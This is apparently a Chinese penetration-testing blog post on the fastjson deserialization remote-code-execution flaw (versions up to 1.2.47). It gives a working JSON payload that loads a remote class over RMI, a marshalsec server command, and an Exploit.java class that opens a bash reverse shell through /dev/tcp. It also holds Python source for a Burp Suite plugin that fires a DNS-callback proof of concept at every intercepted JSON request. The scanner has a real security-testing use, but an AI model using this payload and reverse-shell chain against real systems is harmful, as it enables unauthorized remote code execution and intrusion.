

Title: fastjson被动扫描Burp插件
Category: Pentest
Slug: fastjson-rce
Date: 2019-7-22


fastjson在`1.2.47`以下，包括1.2.47存在反序列化导致的远程命令执行，payload:

```
{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://ip:8000/Exploit","autoCommit":true}}
```

然后在远程主机开启rmi服务和`Exploit.class`web服务就可以打了。

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://ip:8888/#Exploit 8000
```

```
Exploit.java
javac Exploit.java  //编译为class
java Exploit  //运行测试
然后用python的http模块起一个web服务就可用。

public class Exploit {
    public Exploit(){
        try {
            // Runtime.getRuntime().exec("calc");
            java.lang.Runtime.getRuntime().exec(
                    new String[]{"bash", "-c", "bash -i >& /dev/tcp/127.0.0.1/4545 0>&1"});
        } catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}

```

首先你要有一个可以打的接口，这就很蛋疼了。想了半天找了lufei写的一个xxescanner，想了下可以修改为自己的检测工具，但是到最后没成功。

java不熟悉只能转向自己熟悉的python，最后综合了下终于写出来了。

###DNSlog

因为使用新的payload打了存在fastjson漏洞的应用之后，老的payload就可以打了 :)
从小密圈里面找到了一份POC

```
{"name":{"@type":"java.net.InetAddress","val":"baidu.com"}}
```
可以利用dnslog，根据val更换为自己的服务器，辣么久可以了。这个poc在1.2.48之后就不能用了，简直是绝佳的POC。
dnslog要用bit4改之后的那个。

思路就是请求自己的解析，然后根据接口去检测是否有对应的解析:

```
{"name":{"@type":"java.net.InetAddress","val":"test.baidu.com"}}
http://127.0.0.1:8000/apiquery/dns/test/a2f78f403d7b8b92ca3486bb4dc0e498/
//查询是否有test的解析
```

实际中可以生成一串随机字符串，然后去请求是否有对应的解析:

```
    def genRandom(self):
        letters = string.ascii_lowercase
        s = ''.join(random.sample(letters, 10))
        payload = hashlib.md5(s + str(time.time())).hexdigest()
        return payload
```

两个步骤:

1. 检测到请求中是否有json格式的请求，这里可以根据`Content-Type`（可能不准确)，检测之后，构造body，打POC
2. 然后再去检测自己的dnslog是否存在相应的记录


###不足
requests是同步请求，所以如果你的dnslog服务器放在太平洋那边，你的burp会让你怀疑人生，加nginx反代，加cdn。

MD终于弄完了。


```
main.py

#/usr/bin/env python
#! -*- coding:utf-8 -*-
import re
from burp import IBurpExtender # 定义插件的基本信息类
from burp import IHttpListener # http流量监听类
from noauth import noauth_request

res_host = re.compile(r'Host: ([^,]*)')
res_path = re.compile(r'POST ([^ ]*) HTTP/')
class BurpExtender(IBurpExtender, IHttpListener):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers() # 通用函数
        self._callbacks.setExtensionName("fastjson_scan")
        print "load fastjson_scan plugin success!"
        print "=================================="
        # register ourselves as an HTTP listener
        callbacks.registerHttpListener(self)
    
    def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
        if toolFlag == 4 or toolFlag == 64 or toolFlag == 16 or toolFlag == 32:
            if not messageIsRequest:
                response = messageInfo.getResponse() # get response
                analyzedResponse = self._helpers.analyzeResponse(response)
                body = response[analyzedResponse.getBodyOffset():] 
                body_string = body.tostring() # get response_body
                request = messageInfo.getRequest()
                analyzedRequest = self._helpers.analyzeResponse(request)
                request_header = analyzedRequest.getHeaders()
                # print request_header[0]
                # print request_header
                header_string = ''.join(request_header)
                # print header_string
                # try:
                #     method,path = res_path.findall(request_header[0])[0]
                #     host = res_host.findall(request_header[1])[0]
                #     print flag_json
                #     url = method+" "+host+path
                # except:
                #     url = ""
                # if method=="POST" and flag_json:
                if r"application/json" in header_string:
                    # 检测GET请求的接口

                    # print path
                    # print host
                    try:
                        path = res_path.findall(request_header[0])[0]
                        host = res_host.findall(request_header[1])[0]
                        target = host + path
                    except:
                        target = ''
                    print "[Info]Check url is:" + host + path
                    cur = noauth_request(host,path)
                    noauth_result = cur.run()
                    if noauth_result: 
                        print "[Critical] Found it is a Fastjson RCE %s" % noauth_result[0]
                    print "======================================================================================"
                    print ""
```

```
noauth.py

#!/usr/bin/env python
#! -*- coding:utf-8 -*-
import requests
import random
import string
import hashlib
import time

headers={
    
    "User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.139 Safari/537.36",
    "Accept-Language":"zh-CN,zh;q=0.9,en;q=0.8,mt;q=0.7,zh-TW;q=0.6",
    "Accept-Encoding":"gzip, deflate",
    "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8"
}

headers2 = {

	"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.139 Safari/537.36",
	"Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,mt;q=0.7,zh-TW;q=0.6",
	"Accept-Encoding": "gzip, deflate",
	"Accept": "*",
	"Content-Type": "application/json"
}
class noauth_request(object):
    # 未授权访问漏洞检测
    def __init__(self,host,path):
        self.url = "http://"+host+path
        self.randomStr = ''

    def run(self):
        return_list = []
        self.randomStr = self.genRandom()
        if self.verify():
            return_list.append(self.url)
        return return_list


    def verify(self):
        payload = '{"name":{"@type":"java.net.InetAddress","val":"' + self.randomStr + '<domain>"}}'
        # print payload
        try:
            res = requests.post(url=self.url, data=payload, timeout=20, headers=headers2, verify=False)
        except Exception, e:
            print str(e)

        poc_url = "http://<domain>/apiquery/dns/" + self.randomStr  + "/<token>/"
        # print poc_url
        try:
            req = requests.get(poc_url, headers=headers)
            if self.randomStr in req.content:
                return True
        except Exception,e:
            print str(e)
        return False

    def genRandom(self):
        letters = string.ascii_lowercase
        s = ''.join(random.sample(letters, 10))
        payload = hashlib.md5(s + str(time.time())).hexdigest()
        return payload


```

这个文章很精彩呀，所以被删除了啊




* http://xdxd.love/2015/04/20/burpsuite%E6%8F%92%E4%BB%B6%E5%BC%80%E5%8F%91%E4%B9%8Bpython%E7%AF%87/
* https://thief.one/2018/05/04/1/
* https://github.com/BugScanTeam/DNSLog
* https://github.com/lufeirider/Project.git
* https://github.com/bit4woo/DNSLog